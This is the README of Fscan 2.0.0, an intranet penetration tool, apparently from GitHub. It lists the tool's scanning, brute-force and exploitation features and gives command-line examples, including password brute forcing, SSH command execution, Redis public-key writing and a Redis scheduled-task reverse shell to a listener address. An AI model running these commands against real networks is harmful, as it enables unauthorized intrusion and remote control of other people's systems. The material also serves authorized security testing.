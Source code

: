 # Fscan 2.0.0
[English](README.md) | [中文](README_CN.md)

# 1. Introduction
An intranet comprehensive scanning tool, designed for automated and comprehensive vulnerability scanning of internal networks. 
It supports host survival detection, port scanning, common service brute force, ms17010 vulnerability detection, Redis batch public key writing, scheduled task rebound shell, Windows network card information collection, web fingerprint identification, web vulnerability scanning, NetBIOS detection, domain controller identification, and many other functions.

# 2. Functions
1. Information collection:
   * Host survival detection (ICMP)
   * Port scanning

2. Brute force attacks:
   * Various service password brute forcing (SSH, SMB, RDP, etc.)
   * Database password brute forcing (MySQL, MSSQL, Redis, PostgreSQL, Oracle, etc.)

3. System information and vulnerability scanning:
   * NetBIOS detection and domain controller identification
   * Network Interface Card (NIC) information collection
   * High-risk vulnerability scanning (MS17010, etc.)

4. Web detection:
   * Web title detection
   * Web fingerprinting (CMS, OA frameworks, etc.)
   * Web vulnerability scanning (WebLogic, Struts2, etc., also supports XRay POC)

5. Exploitation:
   * Redis public key writing and scheduled task creation
   * SSH command execution
   * MS17010 vulnerability exploitation (shellcode implantation), such as adding users

6. Other features:
   * Save output results to file

# 3. Instructions
### Getting Started
```
fscan.exe -h 192.168.1.1/24
fscan.exe -h 192.168.1.1/16
```

### Advanced Usage
```
fscan.exe -h 192.168.1.1/24 -np -no -nopoc    # Skip survival detection, do not save output, skip web POC scanning
fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub    # Redis write public key
fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666    # Redis scheduled task rebound shell
fscan.exe -h 192.168.1.1/24 -c whoami    # Execute SSH command
fscan.exe -h 192.168.1.1/24 -m ssh -p 2222    # Specify SSH module and port
fscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt    # Load usernames and passwords from files
fscan.exe -h 192.168.1.1/24 -o /tmp/1.txt    # Specify output file path (default is current directory)
fscan.exe -h 192.168.1.1/8    # Scan the first and last IP of each C segment for quick network segment assessment
fscan.exe -h 192.168.1.1/24 -m smb -pwd password    # SMB password brute force
```
